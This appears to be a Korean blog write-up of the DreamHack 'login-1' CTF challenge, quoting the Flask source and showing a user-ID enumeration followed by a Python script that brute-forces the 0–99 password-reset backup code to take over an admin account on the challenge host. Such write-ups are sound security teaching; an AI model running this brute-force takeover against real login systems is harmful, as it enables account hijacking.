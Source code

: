 ```yaml
---
title: "(DreamHack) login-1"
date: 2021-06-01 05:24:00 -0400
categories: Security CTF
---
```


## 풀이
플래그를 얻기 위해서는 유저 레벨이 'admin'인 계정으로 로그인해야 한다.

```python
userLevel = {
    0 : 'guest',
    1 : 'admin'
}
MAXRESETCOUNT = 5

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

@app.route('/admin')
def admin():
    if session and (session['level'] == userLevel[1]):
        return FLAG

    return "Only Admin !"
```


userid를 클릭하면 아래와 같은 화면이 나온다. 이때 url에 있는 17이란 숫자가 user에 부여되는 특정 id라고 가정하여 해당 숫자를 변경해 보았다.
![image](https://user-images.githubusercontent.com/24788751/120293279-0cf91980-c300-11eb-9c7f-aa502b0a3816.png)

이때 potato라는 사용자의 유저 레벨이 1인 것을 확인하였다.

![admin1](https://user-images.githubusercontent.com/24788751/120293014-cf948c00-c2ff-11eb-9c89-ab0a6e23ffae.PNG)

비밀번호 찾기를 통해 비밀번호를 수정하도록 한다.

```python
def makeBackupcode():
    return random.randrange(100)

@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
    if request.method == 'GET':
        return render_template('forgot.html')
    else:
        userid = request.form.get("userid")
        newpassword = request.form.get("newpassword")
        backupCode = request.form.get("backupCode", type=int)

        conn = get_db()
        cur = conn.cursor()
        user = cur.execute('SELECT * FROM user WHERE id = ?', (userid,)).fetchone()
        if user:
            # security for brute force Attack.
            time.sleep(1)

            if user['resetCount'] == MAXRESETCOUNT:
                return "<script>alert('reset Count Exceed.');history.back(-1);</script>"
            
            if user['backupCode'] == backupCode:
                newbackupCode = makeBackupcode()
                updateSQL = "UPDATE user set pw = ?, backupCode = ?, resetCount = 0 where idx = ?"
                cur.execute(updateSQL, (hashlib.sha256(newpassword.encode()).hexdigest(), newbackupCode, str(user['idx'])))
                msg = f"<b>Password Change Success.</b><br/>New BackupCode : {newbackupCode}"

            else:
                updateSQL = "UPDATE user set resetCount = resetCount+1 where idx = ?"
                cur.execute(updateSQL, (str(user['idx'])))
                msg = f"Wrong BackupCode !<br/><b>Left Count : </b> {(MAXRESETCOUNT-1)-user['resetCount']}"
            
            conn.commit()
            return render_template("index.html", msg=msg)

        return "<script>alert('User Not Found.');history.back(-1);</script>";
```

백업 코드는 0이상 100미만의 수가 생성되기 때문에 브루트포스 방식을 통해 백업코드를 찾고 원하는 비밀번호로 변경할 수 있도록 하였다.

```python
import json
import requests

u = "http://host1.dreamhack.games:17892/forgot_password"
userid = "potato"

for i in range(0, 100):
    data = {'userid': "potato", 'backupCode': i, 'newpassword':"aaa"}
    res = requests.post(u, data=data)
    if res.status_code == 200:
        print(i, " was backup code")
        print(res.text)
    else: # 500
        print("-")
```